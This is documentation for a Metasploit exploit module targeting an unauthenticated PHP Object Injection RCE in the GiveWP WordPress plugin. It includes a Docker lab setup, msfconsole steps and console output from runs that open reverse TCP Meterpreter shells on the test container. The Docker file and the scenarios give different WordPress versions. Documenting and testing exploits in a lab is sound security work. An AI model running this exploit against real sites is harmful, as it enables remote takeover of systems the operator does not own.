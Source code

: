 ## Vulnerable Application

This Metasploit module exploits an unauthenticated PHP Object Injection vulnerability in the
GiveWP plugin for WordPress (versions <= 3.14.1).
The vulnerability is present in the 'give_title' parameter, allowing attackers to inject a crafted
PHP object leading to remote code execution (RCE) when combined with a suitable POP chain.

## Setup

1. **Docker Compose Setup**: Create the following `docker-compose.yml` file to set up a vulnerable WordPress environment:

```yaml
services:
  db:
    image: mysql:8.0.27
    command: '--default-authentication-plugin=mysql_native_password'
    restart: always
    environment:
      - MYSQL_ROOT_PASSWORD=somewordpress
      - MYSQL_DATABASE=wordpress
      - MYSQL_USER=wordpress
      - MYSQL_PASSWORD=wordpress
    expose:
      - 3306
      - 33060

  wordpress:
    image: wordpress:6.3.2
    ports:
      - "80:80"
    restart: always
    environment:
      - WORDPRESS_DB_HOST=db
      - WORDPRESS_DB_USER=wordpress
      - WORDPRESS_DB_PASSWORD=wordpress
      - WORDPRESS_DB_NAME=wordpress
volumes:
  db_data:
```
1. Run Docker: `docker compose up`
2. Access the WordPress instance at `http://127.0.0.1` and complete the installation process.
3. **Download and Install Vulnerable GiveWP Plugin**:
- Download the plugin: [GiveWP 3.16.1](https://downloads.wordpress.org/plugin/give.3.16.1.zip)
- Unzip the plugin and copy it to the Docker container:
```bash
docker compose cp give wordpress:/var/www/html/wp-content/plugins
```
- Access the WordPress instance at `http://localhost` and activate the GiveWP plugin via the admin dashboard.

4. **Create a Donation Form**:
- Navigate to the "Forms" section within the GiveWP plugin and click on "Add Form."
- Select any form.
- Configure the form as needed, then publish it.

*Note: Depending on the vulnerability you want to test, using an older version like 3.14.1 may also be applicable.*


## Options

No specific options need to be configured.

## Verification Steps

1. Start `msfconsole`.
2. Use the module with `use exploit/multi/http/wp_givewp_rce`.
3. Set `RHOSTS`, `RPORT`, and the necessary WordPress-specific options.
4. Run the exploit.
5. Gain a Meterpreter session.

## Scenarios

### GiveWP Plugin version: 3.14.1 (Dockerized WordPress Version 6.5.3)

Using `cmd/linux/http/x64/meterpreter/reverse_tcp`:

```bash
msf6 exploit(multi/http/wp_givewp_rce) > run http://127.0.0.1:5555

[*] Started reverse TCP handler on 192.168.1.36:1337 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] WordPress Version: 6.5.3
[+] Detected GiveWP Plugin version: 3.14.1
[+] Vulnerable to both CVE-2024-5932 and CVE-2024-8353 (bypass).
[+] The target appears to be vulnerable.
[+] Successfully retrieved form list. Available Form IDs: 45
[*] Using Form ID: 45 for exploitation.
[*] Sending stage (3045380 bytes) to 172.18.0.3
[*] Meterpreter session 5 opened (192.168.1.36:1337 -> 172.18.0.3:45656) at 2024-10-02 19:51:31 +0200

meterpreter > sysinfo 
Computer     : 172.18.0.3
OS           : Debian 11.8 (Linux 5.15.0-122-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```

### GiveWP Plugin version: 3.16.1 (Dockerized WordPress Version 6.5.3)

```bash
msf6 exploit(multi/http/wp_givewp_rce) > run http://127.0.0.1:5555

[*] Started reverse TCP handler on 192.168.1.36:1337 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] WordPress Version: 6.5.3
[+] Detected GiveWP Plugin version: 3.16.1
[+] Vulnerable to CVE-2024-8353 (bypass).
[+] The target appears to be vulnerable.
[+] Successfully retrieved form list. Available Form IDs: 38
[*] Using Form ID: 38 for exploitation.
[*] Sending stage (3045380 bytes) to 172.18.0.3
[*] Meterpreter session 4 opened (192.168.1.36:1337 -> 172.18.0.3:49380) at 2024-10-02 19:49:39 +0200

meterpreter > sysinfo 
Computer     : 172.18.0.3
OS           : Debian 11.8 (Linux 5.15.0-122-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
